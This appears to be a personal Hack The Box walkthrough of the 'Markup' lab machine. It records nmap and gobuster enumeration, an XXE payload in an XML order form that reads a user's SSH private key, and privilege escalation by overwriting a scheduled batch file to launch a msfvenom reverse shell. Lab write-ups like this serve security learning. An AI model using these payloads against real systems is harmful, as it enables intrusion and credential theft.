 # Markup

IPv4: 10.129.95.192

## Enumeration/Scanning

- sudo nmap -sV -sC -Pn 10.129.95.192
    
    PORT    STATE SERVICE  VERSION
    22/tcp  open  ssh      OpenSSH for_Windows_8.1 (protocol 2.0)
    | ssh-hostkey:
    |   3072 9fa0f78cc6e2a4bd718768823e5db79f (RSA)
    |   256 907d96a96e9e4d4094e7bb55ebb30b97 (ECDSA)
    |_  256 f910eb76d46d4f3e17f393d60b8c4b81 (ED25519)
    80/tcp  open  http     Apache httpd 2.4.41 ((Win64) OpenSSL/1.1.1c PHP/7.2.28)
    |*http-server-header: Apache/2.4.41 (Win64) OpenSSL/1.1.1c PHP/7.2.28
    | http-cookie-flags:
    |   /:
    |     PHPSESSID:
    |*      httponly flag not set
    |_http-title: MegaShopping
    443/tcp open  ssl/http Apache httpd 2.4.41 ((Win64) OpenSSL/1.1.1c PHP/7.2.28)
    |*http-server-header: Apache/2.4.41 (Win64) OpenSSL/1.1.1c PHP/7.2.28
    |ssl-date: TLS randomness does not represent time
    | tls-alpn:
    |  http/1.1
    | http-cookie-flags:
    |   /:
    |     PHPSESSID:
    |*      httponly flag not set
    |_http-title: MegaShopping
    | ssl-cert: Subject: commonName=localhost
    | Not valid before: 2009-11-10T23:48:47
    |_Not valid after:  2019-11-08T23:48:47
    

Nothing useful found on browser, trying directory enumeration and sqlmap. sqlmap provides nothing useful

- sudo gobuster dir -u http://10.129.95.192/ -w /usr/share/wordlists/dirb/common.txt
    
    /.hta                 (Status: 403) [Size: 1046]
    /.htaccess            (Status: 403) [Size: 1046]
    /.htpasswd            (Status: 403) [Size: 1046]
    /aux                  (Status: 403) [Size: 1046]
    /cgi-bin/             (Status: 403) [Size: 1060]
    /com1                 (Status: 403) [Size: 1046]
    /com3                 (Status: 403) [Size: 1046]
    /com2                 (Status: 403) [Size: 1046]
    /con                  (Status: 403) [Size: 1046]
    /examples             (Status: 503) [Size: 1060]
    /images               (Status: 301) [Size: 340] [--> http://10.129.95.192/images/]
    /Images               (Status: 301) [Size: 340] [--> http://10.129.95.192/Images/]
    /index.php            (Status: 200) [Size: 12100]
    /licenses             (Status: 403) [Size: 1205]
    /lpt1                 (Status: 403) [Size: 1046]
    /lpt2                 (Status: 403) [Size: 1046]
    /nul                  (Status: 403) [Size: 1046]
    /phpmyadmin           (Status: 403) [Size: 1205]
    /prn                  (Status: 403) [Size: 1046]
    /server-info          (Status: 403) [Size: 1205]
    /server-status        (Status: 403) [Size: 1205]
    /webalizer            (Status: 403) [Size: 1046]
    

Server looks to be running php

- sudo gobuster dir -u http://10.129.95.192/ -w /usr/share/wordlists/dirb/common.txt -x .php
    
    /.hta                 (Status: 403) [Size: 1046]
    /.hta.php             (Status: 403) [Size: 1046]
    /.htaccess            (Status: 403) [Size: 1046]
    /.htaccess.php        (Status: 403) [Size: 1046]
    /.htpasswd            (Status: 403) [Size: 1046]
    /.htpasswd.php        (Status: 403) [Size: 1046]
    /about.php            (Status: 302) [Size: 108] [--> /index.php]
    /About.php            (Status: 302) [Size: 108] [--> /index.php]
    /aux                  (Status: 403) [Size: 1046]
    /aux.php              (Status: 403) [Size: 1046]
    /cgi-bin/             (Status: 403) [Size: 1060]
    /com1                 (Status: 403) [Size: 1046]
    /com2                 (Status: 403) [Size: 1046]
    /com3.php             (Status: 403) [Size: 1046]
    /com1.php             (Status: 403) [Size: 1046]
    /com2.php             (Status: 403) [Size: 1046]
    /com3                 (Status: 403) [Size: 1046]
    /con                  (Status: 403) [Size: 1046]
    /con.php              (Status: 403) [Size: 1046]
    /contact.php          (Status: 302) [Size: 110] [--> /index.php]
    /Contact.php          (Status: 302) [Size: 110] [--> /index.php]
    /db.php               (Status: 200) [Size: 0]
    /DB.php               (Status: 200) [Size: 0]
    /examples             (Status: 503) [Size: 1060]
    /home.php             (Status: 302) [Size: 107] [--> /index.php]
    /Home.php             (Status: 302) [Size: 107] [--> /index.php]
    /images               (Status: 301) [Size: 340] [--> http://10.129.95.192/images/]
    /Images               (Status: 301) [Size: 340] [--> http://10.129.95.192/Images/]
    /index.php            (Status: 200) [Size: 12100]
    /Index.php            (Status: 200) [Size: 12100]
    /index.php            (Status: 200) [Size: 12100]
    /licenses             (Status: 403) [Size: 1205]
    /lpt2.php             (Status: 403) [Size: 1046]
    /lpt1                 (Status: 403) [Size: 1046]
    /lpt1.php             (Status: 403) [Size: 1046]
    /lpt2                 (Status: 403) [Size: 1046]
    /nul                  (Status: 403) [Size: 1046]
    /nul.php              (Status: 403) [Size: 1046]
    /phpmyadmin           (Status: 403) [Size: 1205]
    /prn                  (Status: 403) [Size: 1046]
    /prn.php              (Status: 403) [Size: 1046]
    /process.php          (Status: 302) [Size: 110] [--> /index.php]
    /products.php         (Status: 302) [Size: 111] [--> /index.php]
    /Products.php         (Status: 302) [Size: 111] [--> /index.php]
    /server-info          (Status: 403) [Size: 1205]
    /server-status        (Status: 403) [Size: 1205]
    /services.php         (Status: 302) [Size: 111] [--> /index.php]
    /Services.php         (Status: 302) [Size: 111] [--> /index.php]
    /webalizer            (Status: 403) [Size: 1046]
    

Looks like I cannot access anything without credentials.

I went back and tried some basic login creds and admin password worked.

Looking through the site nothing seemed interesting so I started using burpsuite to look at requests, especially for post. After checking the order and contact page, the order page allows me to submit an order for a selected goods, through XML.

I also found a user name Daniel while browsing through page source of each page.

- Looking around google I discovered something called [XXE (XML External Entity Injections)](https://www.notion.so/XXE-Injections-bbe79add927845b18dd1c553daa3e632?pvs=21).
    
    https://portswigger.net/web-security/xxe
    
    https://medium.com/@onehackman/exploiting-xml-external-entity-xxe-injections-b0e3eac388f9
    

## Exploitation

Checking hacktriks for how to use XXE

https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity

- Test
    
    <?xml version = "1.0"?>
    
    <!DOCTYPE foo [<!ENTITY example SYSTEM "C:/windows/system32/drivers/etc/hosts"> ]>
    
    <order><quantity>1</quantity><item>
    
    &example;
    
    Home Appliances</item><address>address</address></order>
    

Now I want to find some way to access the system, so using the username Daniel found earlier, I want to see if I can access his ssh key since port 22 is open.

Quick google search on its location:

C:\Users\<username>\.ssh\id_rsa

- XXE Read File
    
    <?xml version = "1.0"?>
    
    <!DOCTYPE foo [<!ENTITY example SYSTEM "C:/Users/Daniel/.ssh/id_rsa"> ]>
    
    <order><quantity>1</quantity><item>
    
    &example;
    
    Home Appliances</item><address>address</address></order>
    

I then copied the private key into a id_rsa file and gave it 600 permissions and ssh’d into daniel

## Privilege Escalation

Looking through the system there was nothing else useful in Users.

Looking at C:\, I found a file called job.bat in C:\Log-Management

- job.bat
    
    @echo off
    FOR /F "tokens=1,2*" %%V IN ('bcdedit') DO SET adminTest=%%V
    
    IF (%adminTest%)==(Access) goto noAdmin
    for /F "tokens=*" %%G in ('wevtutil.exe el') DO (call :do_clear "
    %%G")
    echo.
    echo Event Logs have been cleared!
    goto theEnd
    :do_clear
    wevtutil.exe cl %1
    goto :eof
    :noAdmin
    echo You must run this script as an Administrator!
    :theEnd
    exit
    

There is a command on windows called icacls that lists the permissions for files, and was able to find that daniel has access to it.

I then wanted to run windows suggester so I uploaded a reverse shell to the host and listened using the multi/handler on msfconsole BECAUSE WHY NOT

Was not able to find anything useful with it. So pursing the suspicious job.bat………………

This may be a repetitive job so I tried echoing a reverse shell into the bat to get a shell

Using the shell.exe I already made with msfvenom and uploaded to the host to get the reverse shell, I’m going to try and have the bat file run it to hopefully get system NT 

echo C:\Users\daniel\shell.exe > job.bat

IT WORKED JESUS H CHRIST

rooted

## Post-exploitation
